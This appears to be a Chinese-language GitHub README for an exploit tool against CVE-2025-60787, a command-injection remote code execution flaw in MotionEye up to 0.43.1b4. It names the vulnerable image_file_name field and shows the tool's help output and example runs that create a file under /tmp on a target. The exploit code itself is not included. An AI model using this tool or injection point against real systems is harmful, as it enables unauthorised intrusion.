


## CVE-2025-60787 — Motioneye Remote Code Execution

### 漏洞描述

该漏洞源自客户端验证绕过`configUiValid JavaScript`函数。虽然 UI 会验证文件名字段，但服务器端未能在将这些输入写入`camera-N.conf`文件前进行适当净化。攻击者可以通过**image_file_name**参数注入任意**shell**命令，导致服务加载或重启时系统全面崩溃。

---

### 影响版本

- MotionEye ≤ 0.43.1b4

---

### 漏洞利用

```txt
   ____ __     __ _____       ____    ___  ____   ____           __     ___  _____  ___  _____                                      
  / ___|\ \   / /| ____|     |___ \  / _ \|___ \ | ___|         / /_   / _ \|___  |( _ )|___  |                                     
 | |     \ \ / / |  _|  _____  __) || | | | __) ||___ \  _____ | '_ \ | | | |  / / / _ \   / /                                      
 | |___   \ V /  | |___|_____|/ __/ | |_| |/ __/  ___) ||_____|| (_) || |_| | / / | (_) | / /                                       
  \____|   \_/   |_____|     |_____| \___/|_____||____/         \___/  \___/ /_/   \___/ /_/                                        
                                                                                                                                    
[*] CVE-2025-60787 - MotionEye RCE Exploit Framework
[*] Initializing exploit sequence...

usage: exp.py [-h] [-i IP] [--port PORT] -c COMMAND [-u USERNAME] [-p PASSWORD]

CVE-2025-60787 — Motioneye Remote Code Execution (RCE)

options:
  -h, --help            show this help message and exit
  -i, --ip IP           目标ip (example: 127.0.0.1)
  --port PORT           目标端口 (default: 8765)
  -c, --command COMMAND
                        RCE命令
  -u, --username USERNAME
                        用户名 (default: admin)
  -p, --password PASSWORD
                        密码 (default: '')

    示例:
    python exploit.py -i target_ip -c "touch /tmp/poc"

```

---

### 脚本效果

```bash
python exploit.py -i target_ip -c "touch /tmp/123"
```



---

目标机`/tmp`目录下生成**123**文件

